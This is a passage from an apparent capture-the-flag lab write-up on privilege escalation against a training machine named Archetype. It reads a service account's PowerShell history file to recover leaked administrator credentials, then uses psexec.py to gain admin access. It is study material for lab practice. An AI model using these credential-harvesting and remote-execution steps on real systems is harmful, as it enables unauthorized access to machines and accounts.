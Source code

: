 ``` {.python .numberLines}
   Link-local IPv6 Address . . . . . : fe80::f1b0:217c:824d:11d2%7
   IPv4 Address. . . . . . . . . . . : 10.10.10.27
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:339d%7
                                       10.10.10.2
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> users
sql_svc
Administrator
```

\newpage
## Phase #3: Privilege Escalation
1\. With our interactive shell running, we can now begin exploring the system further. Since the current user is a normal as well as service axxount, let's look at the Powershell history file to find any interesting commands:  
``` {.python .numberLines}
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```

![writeup.privesc.steps.1.1](./screenshot11.png)  

2\. We find that the `backups` drive has been mounted using administrative privileges and the credentials are leaked in plaintext within the history file. We can use these credentials to gain elevated access on the system:  
``` {.python .numberLines}
psexec.py administrator@10.10.10.27

```

![writeup.privesc.steps.2.1](./screenshot12.png)  
